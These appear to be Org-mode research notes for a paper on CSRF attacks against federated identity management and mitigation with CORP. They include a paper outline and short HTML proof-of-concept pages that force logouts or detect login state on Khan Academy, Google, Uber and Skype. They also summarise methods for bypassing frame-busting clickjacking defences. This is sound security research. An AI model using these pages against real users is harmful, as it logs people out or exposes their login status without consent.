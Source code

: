 * Paper Outline
** Working Title: Modeling and Mitigation of CSRF Attacks on FIM
- Summary of Abstract
** TODO Abstract
1/2 page
- Summary of Intro
*** Working Abstract:
Our abstract for now(verify) is something like this: we are showing that FIM is
not an all-encompassing security measure. CSRF attacks can still be carried out
on the application as that isnt even part of the model(here demo of regular
csrf attacks on intentionally vulnerable website). In addition FIM is weak to
another csrf attack: logout. Both these problems can be mitigted(hopefully)
using corp
** Introduction
2-3 pages
- Summary of paper
- Motivation
- Related Work
- 
** Motivation(Pitch)
- Why is it important
** Related Work
** Method and Technique
- What is FIM
** Modeling
- How we modeled it alloy
** Experimentation
- Implementation of experiments
** Conclusion
** Future Outlook





* Experiment
** Generic
*** Vulnerabilities Check
**** CSRF
**** Click jacking
**** cross site timing attack
- Mitigate atacks using corp extension. 
how: 
- fix one website, then based on e
*** Mitigation tests
- using corp extension

  
* Mitigation
Check with corp extension in chrome

* Robin Linus
- all the websits which use FIM, are vulnerable to click jacking which they are
  on the robin linus site.



* Attack 1 : Cross-Site Timing Attack
- Use with Khanacademy: if logged in logo will show up else not;.
#+BEGIN_SRC html :tangle khanacademychecklogin.html
<html>
  <head><title>Khanacademy Check Login Attack</title></head>
  <body>
    <img src="https://www.khanacademy.org/login?continue=%2Ffavicon.ico"/>
  </body>
  
</html>
#+END_SRC
* Attack Khanacademy Logout:
#+BEGIN_SRC html :tangle khanacademylogout.html
<html>
<head><title>Khanacademy Logout Attack</title></head>
<body>
<img src="https://khanacademy.org/logout?contine=/"/>
</body>
</html>
#+END_SRC
* Attack Google Logout
#+BEGIN_SRC html :tangle googlelogout.html
<html>
<head><title>Google Logout Attack</title></head>
<body>
<img src="https://accounts.google.com/logout"/>
</body>
</html>
#+END_SRC
* Uber logout
#+BEGIN_SRC html :tangle  uberlogout.html
<html>
<head><title>Attacker</title></head>
<body>
<img src="https://riders.uber.com/logout"/>
</body>
</html>
#+END_SRC
* Skype logout
#+BEGIN_SRC html :tangle skypelogout.html
<html>
<head><title>Attacker</title></head>
<body>
<img src="https://secure.skype.com/portal/logout"/>
</body>
</html>
#+END_SRC

* Read on clickjacking
** Busting Frame Busting:a Study of Clickjacking Vulnerabilities on Popular Sites
This paper was published in 2010 . It shows many vulnerability in sites at those times 
and how clickjacking cannot be stopped just by frame busting and new policies must be 
added into our web.

*** Frame bursting example
 i f ( top . location   !=   self.location ){
top .location = self.location ;
}


*** Methods against frame bursting
  1.Use the window.onbeforeunload function to not unload a frame
    1.1 this can be done by asking the user "to not leave page"(alert box) 
    1.2 Flushing the request to unload by stopping the unload request by continuously calling this window.onbeforeunload\
  2.Disable js (both inline and external )
    2.1 inline by by using XSS filters to not allow these scripts
    2.2 External by simplying disable js

  
  3.By passing the Regular expressions in frame busting js 
    By just placing the domian of the victim in the url

  4.Changing the value of location as  it can be redefined

  5.Security="restricted"

** Faults in XFO
   1.Per page specification
   2.One-type domain allowed per page 
   3. *Proxies can remove headers*


** XFO Headers 
   meta tags to make website more secrue by only allowing only some iframes(Cross origin request) 
   using the value specified in the header
*** Value of the header
    1.DENY
    2.SAMEORIGIN
    3.ALLOWED-FROM

 

** X-Content-type
   headers which specify what kind of file is being loaded by a particular request
   eg. text/plain,text/html,images/jpeg
